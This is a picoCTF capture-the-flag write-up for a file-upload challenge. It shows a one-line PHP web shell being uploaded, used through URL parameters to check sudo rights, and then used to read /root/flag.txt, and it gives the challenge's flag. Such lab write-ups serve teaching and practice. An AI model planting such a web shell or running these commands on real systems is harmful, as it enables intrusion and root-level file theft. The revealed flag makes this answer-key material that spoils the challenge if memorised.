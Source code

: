 # n0s4n1ty 1 picoCTF Write-Up

## Challenge Description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission is to navigate to the provided web page and locate the file upload area. The ultimate goal is to find the hidden flag located in the `/root` directory.

## Solution Steps

1. **Locate the File Upload Area**  
   Visit the challenge website and find the file upload section.

2. **Upload a Malicious PHP Script**  
   Prepare a PHP script that allows command execution:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
   Upload this file as `script.php`.

3. **Test Command Execution**  
   Access the uploaded script and test if you can run system commands:
   ```
   http://standard-pizzas.picoctf.net:57439/uploads/script.php?cmd=sudo%20-l
   ```
   Output:
   ```
   Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
   User www-data may run the following commands on challenge:
   (ALL) NOPASSWD: ALL
   ```
   This confirms that the `www-data` user can run any command with sudo without a password.

4. **Read the Flag File**  
   Use the script to read the flag in `/root/flag.txt`:
   ```
   http://standard-pizzas.picoctf.net:57439/uploads/script.php?cmd=sudo%20cat%20/root/flag.txt
   ```
   Output:
   ```
   picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}
   ```

## Flag
```
picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}
```